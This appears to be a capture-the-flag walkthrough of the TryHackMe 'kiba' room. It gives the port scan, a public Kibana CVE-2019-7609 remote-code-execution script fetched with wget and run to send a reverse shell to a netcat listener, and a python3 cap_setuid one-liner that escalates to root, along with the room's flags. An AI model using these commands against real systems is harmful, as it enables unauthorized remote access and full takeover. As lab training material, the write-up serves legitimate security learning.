

# kiba

# Recon

Scan the pots and service

```jsx
┌──(shadow🔥kali)-[~/Tryhackmy_rooms/kiba]
└─$ nmap -p- 10.201.51.93
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-16 19:53 CET
Nmap scan report for 10.10.223.211
Host is up (0.040s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5044/tcp open  lxi-evntsvc
5601/tcp open  esmagent
```

see  the website but that is nothing 



so search the Kibana running port and that is `5601` 


now go to Kibana website 


that's auto get the admin penal so this vulnerable so fats check the version to search exploit  


go `Management` and it the CMS version that is `6.5.4` 

## **Exploiting the Vulnerability**

Following the GitHub link inside the aforementioned website lead me to the file I needed.


The documentation for this repository showed me exactly what I needed to do next.

```jsx
┌──(shadow🔥kali)-[~/Tryhackmy_rooms/kiba]
└─$ python2 CVE-2019-7609-kibana-rce.py -h
usage: CVE-2019-7609-kibana-rce.py [-h] [-u URL] [-host REMOTE_HOST]
                                   [-port REMOTE_PORT] [--shell]

optional arguments:
  -h, --help         show this help message and exit
  -u URL             such as: http://127.0.0.1:5601
  -host REMOTE_HOST  reverse shell remote host: such as: 1.1.1.1
  -port REMOTE_PORT  reverse shell remote port: such as: 8888
  --shell 
```

Seeing the options for REMOTE_HOST and REMOTE_PORT  I knew that the time had come to setup a listener on my machine, to catch the reverse shell that this script was going to create for me.  I used netcat to listen on a port of my choosing.  In this case, I chose 4444.

```jsx
┌──(shadow🔥kali)-[~/Tryhackmy_rooms/kiba]
└─$ rlwrap -f . -r nc -lvnp 4444
listening on [any] 4444 ...
```

In another tab, I downloaded the script and then ran it, passing in the address of the vulnerable Kibana instance, the IP address of my machine and the port I had chosen from earlier 4444.

```jsx
wget https://raw.githubusercontent.com/LandGrey/CVE-2019-7609/master/CVE-2019-7609-kibana-rce.py
```

```jsx
python2 CVE-2019-7609-kibana-rce.py -u http://10.201.51.93:5601 -host 10.17.44.22 -port 4444 --shell
```

```jsx
┌──(shadow🔥kali)-[~/Tryhackmy_rooms/kiba]
└─$ python2 CVE-2019-7609-kibana-rce.py -u http://10.201.101.204:5601 -host 10.17.44.22 -port 4444 --shell
[+] http://10.201.101.204:5601 maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability
[+] reverse shell completely! please check session on: 10.17.44.22:4444                                                                                                                              
```

Now in my original tab where I started the listener, I can see that I now **have a shell on the remote server!!**. Perfect. Now it's just a question of finding the file user.txt and reading the contents.


I found the contents of the file user.txt and thus the answer for question four: *THM{1s_easy_pwn3d_k1bana_w1th_rce}*

## **Privilege Escalation**

The final part of this challenge is to "break out" from our kiba user shell and try and gain a root shell, so I have complete control of the server.

Earlier on I saw the message on the website that said "linux capabilities" is interesting, so it was time to do some googling around that. The challenge wanted me to figure out how to find all the files which had additional privileges set on them.

For that, I was able to run the following command on the remote server, which I found in this [hacking article](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/?ref=g10s.io).  This also happens to be the answer to the next question.

`*getcap -r / 2>/dev/null*`

This command lists the capabilities set on files, searching recursively from the root directory, filtering out any error messages.

```jsx
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

Interesting. Next I had a look at some of the capabilities and found out what they meant. The fact that there's a python3 binary in a folder called '.hackmeplease' suggests that this is likely to be the one I go on to exploit, but I figured I might as well learn about the others too. Thankfully this information was also available in the aforementioned hacker article.


https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

So from the table above it definitely sounded like CAP_SETUID was the one I want to pursue. That capability grants this python3 binary permission to set the effective user of any target process. Knowing this, I can execute a little python command using the python3 binary in `/home/kiba/.hackmeplease/python3` to set the userid of the current bash process to zero, thus giving me effective root access.

The command for doing this and the result is as follows:

```jsx
kiba@ubuntu:/home/kiba$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
<on3 -c 'import os; os.setuid(0); os.system("/bin/bash")'                    
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
cd /root
ls
root.txt
ufw
cat root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```

